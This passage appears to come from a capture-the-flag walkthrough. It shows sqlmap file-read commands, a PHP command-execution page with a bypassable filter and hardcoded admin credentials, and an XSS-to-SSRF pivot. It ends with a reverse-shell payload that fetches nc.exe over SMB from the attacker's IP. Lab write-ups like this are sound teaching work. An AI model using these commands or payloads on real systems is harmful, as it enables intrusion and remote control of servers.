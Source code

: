 `sqlmap -r search.req --file-read '/xampp/htdocs/index.php'`
`sqlmap -r search.req --file-read '/xampp/htdocs/admin/search.php'`
`sqlmap -r search.req --file-read '/xampp/htdocs/admin/backdoorchecker.php'`

The `backdoorchecker.php` is interesting because it contains an injection vulnerability in the system() function. There's some filtering done on the provided `cmd` parameter: it has to start with `dir` and can't contain `$(` or `&`. But that's not enough to prevent injecting commands. Source code shown below:

```php
<?php
include('../link.php');
include('auth.php');

$username = base64_decode(urldecode($_COOKIE['username']));
$password = base64_decode(urldecode($_COOKIE['password']));
$bad 	  = array('$(','&');
$good 	  = "ls";

if(strtolower(substr(PHP_OS,0,3)) == "win"){
    $good = "dir";
}

if($username == "admin" && $password == "Hopelessromantic"){
    if(isset($_POST['cmd'])){
        // FILTER ESCAPE CHARS
        foreach($bad as $char){
            if(strpos($_POST['cmd'],$char) !== false){
                die("You're not allowed to do that.");
            }
        }
        // CHECK IF THE FIRST 2 CHARS ARE LS
        if(substr($_POST['cmd'], 0,strlen($good)) != $good){
            die("It's only allowed to use the $good command");
        }

        if($_SERVER['REMOTE_ADDR'] == "::1"){
            system($_POST['cmd']);
        } else{
            echo "It's only allowed to access this function from localhost (::1).<br> This is due to the recent hack attempts on our server.";
        }
    }
} else{
    echo "You are not allowed to use this function!";
}
?>
```

## Turning the XSS into an SSRF

As I found earlier I can't reach the `backdoorchecker.php` file from my own machine but I can use the same XSS to turn it into a SSRF. I'll need to change my javascript payload to generate a POST request to the backdoor checker page with the right parameters. After some trial an error I found that `dir|\\\\10.10.14.19\\test\\nc.exe 10.10.14.19 7000 -e cmd.exe"` payload works to execute netcat over SMB and get a shell.
